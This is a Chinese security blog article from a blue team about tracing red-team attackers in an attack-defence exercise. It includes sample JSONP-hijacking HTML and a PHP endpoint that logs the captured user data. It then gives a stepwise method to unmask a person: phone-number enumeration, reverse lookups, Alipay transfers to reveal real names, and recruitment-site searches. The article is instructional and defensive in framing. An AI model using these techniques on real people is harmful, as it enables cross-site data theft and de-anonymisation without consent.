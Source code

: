 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/R2EAhOAayHHDAQiHELZNHA)

![](https://mmbiz.qpic.cn/mmbiz_gif/3xxicXNlTXLicwgPqvK8QgwnCr09iaSllrsXJLMkThiaHibEntZKkJiaicEd4ibWQxyn3gtAWbyGqtHVb0qqsHFC9jW3oQ/640?wx_fmt=gif)  

> **文章来****源：****酒仙桥六号部队**

**背景**

网络安全的本质是攻防对抗，而某大型活动是以红蓝对抗的形式组织开展的活动，其目的是在红队与蓝队的对抗中提升网络安全。

**目的**

在某大型活动中蓝方经常扮演的角色是被动挨打，但是如果我们能够掌握足够的技术手段，则可以变被动防守为主动出击，如反攻攻击方主机，溯源攻击方真实身份 \\ 虚拟身份等。

**溯源思路**

说到溯源攻击方，一般有几种思路：

1、 溯源真实的攻击方 IP，在攻防活动中攻击方使用代理 IP，代理服务器屡见不鲜，那么识别到真实的攻击方 IP，是溯源活动中一项必不可少的动作，这里一般是识别代理 ip 中的 X-FOWARED-FOR 字段来识别攻击者的真实 IP，或以攻击代理服务器，拿下代理服务器后查看网络连接确定真实 IP，但此过程较为复杂。

2、 对攻击方实施反钓鱼手段，如部署互联网系统，诱使攻击方攻击，在互联网系统内添加钓鱼内容，使攻击方在访问时获取攻击方的真实信息；如在获取到攻击方的钓鱼邮件后，使用钓鱼邮箱点击或主动上钩，并在钓鱼邮箱内添加存在漏洞的应用，或其他 word、excel 等。本篇溯源文章主要讲述此种方法。

**json hi jacking 攻击**

首先我们介绍一下 json hi jacking 攻击，json hi jacking 是一种劫持攻击，在攻击者点击到存在 json hi jacking 攻击的页面时，触发跨域获取数据的接口（jsonp），获取到攻击者的浏览器 cookie 内存储的数据，如百度、爱奇艺、微博等。Json hi jacking 类似于 csrf 攻击。

Jsonp 是一种非官方的协议，是 Web 前端 JavaScript 跨域获取数据的一种方式，一般在读写数据时，有同源的策略限制，不允许读写其它域的数据，不过我们可以利用 JavaScript 的 src 属性，来绕过此限制，以达到跨域获取数据的目的，如以下代码：

```
测试前端

<html>
<head>
<meta http-equiv="Content-Type" content="text/html;charset=UTF-8">
<title>apppppppp</title>

<script src="http://xxx.com/api/jsonp.php? callback=jsonp1&other=xxx "></script> <!--调用存在jsonp劫持的api-->
<script>function test(obj){ <!--定义函数，接收jsonp劫持的api返回的数据-->
alert(JSON.stringify(obj));<!--弹窗jsonp返回的数据，并在弹窗内部使用JSON.stringify将avaScript值转为json字符串-->
}
test(jsonp1)<!--调用函数-->
</script>

</head>
</html>
```

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55CDkFgJvMJrTfibScWo3v982BWPonmloBdn1PAhA2yVRDP4haYssBuG1DoOTTZYyfEhC2Wqrxb56Q/640?wx_fmt=png)

```
后端data.php接收代码
<?php 
$data = $\_GET\['data'\];//接收data数据
var\_dump($data);
$fp = fopen('data.txt','a');//向data.txt中写入data数据
$fpp = fwrite($fp,$data."\\r\\n");
?>
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s55CDkFgJvMJrTfibScWo3v98VHNULlyfPdMXtzoS8NS8SeCgXSbva43IYiaEyNOBe26BQ9mJaQkRPuA/640?wx_fmt=jpeg)

**记一次溯源真实身份**

一般来说我们劫持到的数据有 uid、邮箱、手机号、登录名或真实姓名等，如邮箱我们可以通过接口网站主站下的找回密码功能，获得手机号的其中几位。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s55CDkFgJvMJrTfibScWo3v985G3djpa0BKqGTtsj6dwHnB1CRSMuVDHScPVMQaSqCsfV8iaOMTwnNwA/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s55CDkFgJvMJrTfibScWo3v98Su6yLo10yiask4dvxzcFcttCxzMkibaL8SiamibKmTLzSHwqJcibAdZxHoQ/640?wx_fmt=jpeg)

一般来说，获得的手机号是 130xxxxx111，中间几位隐藏

接下来我们可以使用运营商的公开数据进行检索，其中前三位代表运营商号，中间四位是 HSS/HLR 识别码，其中包括了号码归属地信息，网上一般有现成的归属地信息库，如：

https://github.com/zengzhan/qqzeng-ip

如果我们知道红队大致是在北京地区活动，则我们可以从数据库中摘取北京地区的号码，通过前三位 + 北京地区四位 + 1 位（0-9）+ 后三位，经过初步筛选后，则剩余的手机号，可能有 500 左右，随后我们可以通过手机号反查邮箱的方法，获得对应的邮箱 + 手机号。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s55CDkFgJvMJrTfibScWo3v98vwN86F9npmv5THmrw3S6uMYXOyT5nQxP7j0lHLfu52p2UOgEufJb2A/640?wx_fmt=jpeg)

获得手机号后，我们可以通过支付宝转账的方法，获取对方真实姓名。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s55CDkFgJvMJrTfibScWo3v98A8uG1Resmfn0n663mYADyv6kVSww7HX4Q6Zuviam946gZlCIVp0DGIw/640?wx_fmt=jpeg)

如下为本次大型活动中抓取的某黑客的信息，并进行溯源的结果。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s55CDkFgJvMJrTfibScWo3v9811Llx0CZRcNWzpnpGcpcrQnjFIgicyYNobt44xH0ztTEibIENkO3ibTDg/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s55CDkFgJvMJrTfibScWo3v98sTOOKz8pKA1cEkiapfkCzpGlfxTsuJmOUSDPSqIeauIicIbIm90Ex9eQ/640?wx_fmt=jpeg)

黑客访问了部署了带有 jsonp 劫持的页面，抓取到的信息如下，有用户 id，通过该用户 id 可访问用户的主页。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s55CDkFgJvMJrTfibScWo3v98NGeoOb0G3H5NRacjD2A28GqmS27jLic4v5TObQXmib8ewmNwxhia61b2w/640?wx_fmt=jpeg)

获取到该红队人员的手机号为 1XXXXXX。

通过数据库检索后，对该手机号进行反查。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s55CDkFgJvMJrTfibScWo3v98KJv9lCmxjnvtv2ica5MNtf6pOKf9BT13VPx90JGjw6vkqPow8KBbL3g/640?wx_fmt=jpeg)

获取到对应的手机号后，可以通过支付宝内的转账功能，获取手机号 + 邮箱后，可以通过支付宝的转账功能，获取真实姓名，最后还可以通过猎聘、脉脉、boss 直聘等招聘软件，通过搜索手机号的方法，获取到红队的入职信息。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s55CDkFgJvMJrTfibScWo3v98GuVja6ZKibIu8lnaZgXeMRksMhFHMsnW0JuLiboQmn184HNc777TYnkQ/640?wx_fmt=jpeg)

**总结**

现在各种网站、APP 收集我们的信息，而又无法做好信息访问控制，容易被利用，从已泄露的信息中反查到真实身份，所以我们在使用这些网站、APP 时，应着重关注自己的隐私信息，可以关闭信息查询功能的一定要关闭，如支付宝、脉脉、猎聘等，尽量避免多个网站使用同一手机号，邮箱，密码等信息。

![](https://mmbiz.qpic.cn/mmbiz_jpg/3xxicXNlTXLicjiasf4mjVyxw4RbQt9odm9nxs9434icI9TG8AXHjS3Btc6nTWgSPGkvvXMb7jzFUTbWP7TKu6EJ6g/640?wx_fmt=jpeg)

推荐文章 ++++

![](https://mmbiz.qpic.cn/mmbiz_jpg/US10Gcd0tQFGib3mCxJr4oMx1yp1ExzTETemWvK6Zkd7tVl23CVBppz63sRECqYNkQsonScb65VaG9yU2YJibxNA/640?wx_fmt=jpeg)

\* [通过一封钓鱼邮件，溯源分析背后的产业链（教科书）](http://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650483324&idx=4&sn=513793c824926f1b8bc079e28d8ac913&chksm=83ba4f98b4cdc68e9d8e003f9c726adbc24d0fe6db86fa185538681f5eaaea628cbeb4503c2d&scene=21#wechat_redirect)

\* [干货 | 一次对钓鱼邮件攻击者的溯源分析](http://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650483113&idx=4&sn=9adc5ff467dc8fdd9d2b039ffcf81358&chksm=83ba4c4db4cdc55bf62dfcc18568426b4ee48323dcda601b69ad7ca1dd2f1268263dce17c11a&scene=21#wechat_redirect)

\* [蓝队实战溯源反制手册分享](http://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650481649&idx=2&sn=f847b1130e8018e36f4c831d4ddd83cc&chksm=83ba4615b4cdcf03b0ec44f57909374567c6c0cc6e099d52e5f4fc68a03c46cdc0576c848512&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLib0FWIDRa9Kwh52ibXkf9AAkntMYBpLvaibEiaVibzNO1jiaVV7eSibPuMU3mZfCK8fWz6LicAAzHOM8bZUw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_gif/NZycfjXibQzlug4f7dWSUNbmSAia9VeEY0umcbm5fPmqdHj2d12xlsic4wefHeHYJsxjlaMSJKHAJxHnr1S24t5DQ/640?wx_fmt=gif)